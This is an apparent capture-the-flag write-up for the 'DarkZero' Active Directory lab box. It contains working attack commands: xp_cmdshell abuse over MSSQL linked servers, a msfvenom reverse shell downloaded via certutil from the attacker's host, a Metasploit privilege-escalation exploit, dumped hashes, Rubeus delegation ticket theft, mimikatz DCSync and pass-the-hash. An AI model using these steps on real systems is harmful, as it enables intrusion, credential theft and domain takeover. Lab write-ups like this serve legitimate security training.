 
![](Cover-darkzero.png)

## INFO_

```
Machine Information
As is common in real life pentests, you will start the DarkZero box with credentials for the following account john.w / RFulUtONCOL!
```

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
2179/tcp open  vmrdp
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


```
bloodhound-python --domain darkzero.htb --domain-controller dc01.darkzero.htb --nameserver 10.129.3.50 --username john.w --password 'RFulUtONCOL!' --collectionmethod all --dns-tcp --zip
```




## USER_ACCESS
### [MSSQL Linked Servers](https://www.adversify.co.uk/blog/escalating-privileges-via-linked-database-servers) 

```
SQL (darkzero\john.w  guest@master)> select srvname from master..sysservers

srvname             
-----------------   
DC01

DC02.darkzero.ext
```



```
EXEC ('EXEC xp_cmdshell "whoami"') AT [DC02.darkzero.ext];


--> The following commands will re enable xp_cmdshell through the two database links we have identified:

EXEC ('sp_configure ''show advanced options'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];

EXEC ('sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [DC02.darkzero.ext];

EXEC ('xp_cmdshell "whoami"') AT [DC02.darkzero.ext];

output                 
--------------------   
darkzero-ext\svc_sql   

NULL 


--> Upload venom to the victim DC02:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=1337 -f exe -o venom.exe 

EXEC ('xp_cmdshell "certutil.exe -urlcache -f http://10.10.14.40/venom.exe C:\users\svc_sql\Desktop\venom.exe"') AT [DC02.darkzero.ext];

--> Run it :

EXEC ('xp_cmdshell "C:\users\svc_sql\Desktop\venom.exe"') AT [DC02.darkzero.ext];
```

Now, We at DC02 we need to escalate our privileges !!

```
--> Bg the meterpreter session and run exploit suggestor :

use post/multi/recon/local_exploit_suggester

exploit/windows/local/cve_2024_30085_cloud_files:
exploit/windows/local/cve_2024_30088_authz_basep:
exploit/windows/local/cve_2024_35250_ks_driver:


--> Now Lets start the attack :

use windows/local/cve_2024_30088_authz_basep  [Set the options!]

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
DC02


meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6963aad8ba1150192f3ca6341355eb49:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:43e27ea2be22babce4fbcff3bc409a9d:::
svc_sql:1103:aad3b435b51404eeaad3b435b51404ee:816ccb849956b531db139346751db65f:::
DC02$:1000:aad3b435b51404eeaad3b435b51404ee:663a13eb19800202721db4225eadc38e:::
darkzero$:1105:aad3b435b51404eeaad3b435b51404ee:4276fdf209008f4988fa8c33d65a2f94:::
```


## PRIV_ESC - [Delegation](https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

As this is AD box, there might be some cross-domain relations ; Lets explore those.

```
PS > Get-DomainTrust

SourceName      : darkzero.ext
TargetName      : darkzero.htb
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
```


DC02 is configured with non-constrained delegation [ DARKZERO.HTB <--> DARKZERO.EXT ] and with cross-domain trust between them.

```
PS > Get-DomainComputer -Unconstrained -Properties useraccountcontrol,dnshostname | fl

dnshostname        : DC02.darkzero.ext
useraccountcontrol : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
```

We use Rubeus to listen to the LSASS memory with system privileges, and access the SMB share of DC02 from MSSQL Service 

```Dc02
Rubeus.exe monitor /interval:5 /nowrap
```


```attacker-
impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@10.129.252.83 -windows-auth
xp_dirtree \\DC02.darkzero.ext\ggg
```

Then get the TGT of DC01$@Darkzero.htb ; 

![](delegate-tgt.png)


Then pass the ticket ! 

```
Rubeus.exe renew /ticket:<tgt> /ptt /nowrap
```

As, we got the ticket cached on this DC , we can export the ticket and dc_sync via impacket-secretsdump or even mimikatz in this instance !

```
mimikatz # lsadump::dcsync /domain:darkzero.htb /user:darkzero\Administrator
```

```winrm
evil-winrm -i darkzero.htb -u administrator -H 5917507bdf2ef2c2b0a869a1cba40726
```

![](root-darkzero.png)